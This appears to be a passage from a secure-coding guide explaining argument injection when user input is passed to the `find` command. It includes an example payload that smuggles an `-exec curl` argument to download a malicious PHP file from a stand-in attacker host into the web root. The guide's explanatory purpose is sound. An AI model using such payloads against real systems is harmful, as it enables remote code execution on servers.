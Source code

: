 The following code uses the `find` command and expects the user to enter the
name of a file to find on the system.

It is vulnerable to argument injection because untrusted user-submitted data is
inserted in the arguments of a process call without prior validation or
sanitization. +
Here, the application ignores that a user-submitted parameter might contain
special characters that will tamper with the expected system command behavior.

In this particular case, an attacker might add arbitrary arguments to the `find`
command for malicious purposes. For example, the following payload will download
malicious software on the application's hosting server.

----
 -exec curl -o /var/www/html/ http://evil.example.org/malicious.php ;
----